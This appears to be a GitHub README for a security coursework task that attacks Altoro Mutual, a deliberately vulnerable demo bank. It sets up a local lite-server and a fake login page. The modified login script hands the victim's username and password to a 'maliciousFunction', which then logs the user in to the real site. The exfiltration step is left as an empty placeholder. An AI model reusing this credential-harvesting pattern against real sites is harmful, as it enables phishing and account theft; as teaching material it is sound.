




# XSS attack against a user that is currently not logged in


## This entire task covers both of the below mentioned operations

1. Design an attack that fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards.
2. How can you hide the attack code to the victim? Implement an exemplary concealment.


## Create Lite-Server

We have used the Angular CLI for project development as node project. We will use the **lite-server** for creating the web-server (HTTP-Server). We can add the lite-server library through npm or yarn.

Installed lite-server through yarn
```
yarn add lite-server
```

or use npm to install lite-server
```
npm install lite-server
```


## Configure the Lite-Server

We have added the following code in the `package.json` file (which acts is project and library manager for the web application developed as a node project) within `script` section:

```
  "scripts": {
    ...
    "lite-server": "lite-server -c=bs-config.json"
    ...
  },
```

The configuration detail for the lite-server is mentioned within the `bs-config.json` file.

Code within the `bs-config.json` file:
```
{
    "_comment1": "https://github.com/johnpapa/lite-server",
    "_comment2": "https://www.browsersync.io/docs/options",
    "port": 3000,
    "host": "127.0.0.1",
    "files": ["./lite-server/*.{html,htm,css,js}"],
    "server": { 
        "baseDir": "./lite-server"
    }
}
```

The configuration file tells the lite-server library to run as the ***HTTP-Server*** on the host `127.0.0.1 or localhost` and port `3000`.


## Execute the 'lite-server' HTTP-server through `yarn` or `npm`

Start lite-server through yarn:
```
yarn run lite-server
```

Start lite-server through npm:
```
npm run lite-server
```

Screenshot:  


Screenshot browser:



## Open the Login page of the 'Altoro Mutual'

We have created the fake login page that looks exactly like the bank's login website. Upon clicking the link on the top with text `Login to Altoro Mutual`, a popup page will open wit the login screen of the ***Altoro Mutual***:  




## Upon entering the credentials

The user can enter the credentials in order to login on the bank's web application.



Upon clicking on the login button following code (copied from web page on the bank's web application) gets executed:
```

			function confirminput(myform) {
			    if (myform.uid.value.length && myform.passw.value.length) {
					debugger;
					try {
				  		window.parent.maliciousFunction(myform.uid.value, myform.passw.value);	
					} catch (error) {
						console.log(JSON.stringify(error))
					}
			      return (false);
				}
				else if (!(myform.uid.value.length)) {
			      alert ("You must enter a valid username");
			      return (false);
			    } else {
			      alert ("You must enter a valid password");
			      return (false);
			    }
			}
			window.onload = setfocus;
```

The modification from the authentic are:
```
                    debugger;
					try {
				  		window.parent.maliciousFunction(myform.uid.value, myform.passw.value);	
					} catch (error) {
						console.log(JSON.stringify(error))
					}
```
The `debugger` is added for the debugging purpose to view the code execution flow.


## Malicious Code

The `index.html` contains the malicious that get execution from the popup window (containing the User Interface of the Bank's Login Page) that is meant for the user login.

```
/**
     * Redirect to respective page with following parameters.
     * Do not use this function without intimation from the author (Vivek Yadav)
     * This code has been written before 2006
     * @param {type} to
     * @param {type} p
     * @returns {undefined}
     */
    function postwith (to,p) {
      var myForm = document.createElement('form');
      myForm.method='post' ;
      myForm.action = to ;
      for (var k in p) {
        var myInput = document.createElement('input') ;
        myInput.setAttribute('name', k) ;
        myInput.setAttribute('value', p[k]);
        myForm.appendChild(myInput) ;
      }
      document.body.appendChild(myForm) ;
      myForm.submit();
      document.body.removeChild(myForm) ;
    }
    
    function maliciousFunction(username, password) {
      // Start > Code to send the credentials
      
      // End > Code to send the credentials

      postwith("https://demo.testfire.net/doLogin",{
        uid : username,
        passw: password
      });
    }
```


The malicious section mentioned below can have code to silently send the user's credential to an endpoint on the malicious server accepting the credentials. 
```
      // Start > Code to send the credentials
      
      // End > Code to send the credentials
```


## Enchancement to the Malicious Code

The malicious section can be enhanced with an additional lines of code to verify the success response from the server and redirect the user to the main page of the bank's web application (server). For this task `ajax` function from 'jQuery' can be a perfect candidate.
```
    function maliciousFunction(username, password) {
      // Start > Code to send the credentials
      $.post({
          url: "https://demo.testfire.net/doLogin",
          ...
          success : function(res) {
            if( [res is positive] ) {
                postwith("https://demo.testfire.net/doLogin",{
                    uid : username,
                    passw: password
                });
            }
            else {
                // Display error message exactly mentioned on the server.
            }
          },
          ...
      })
      // End > Code to send the credentials

    }
```

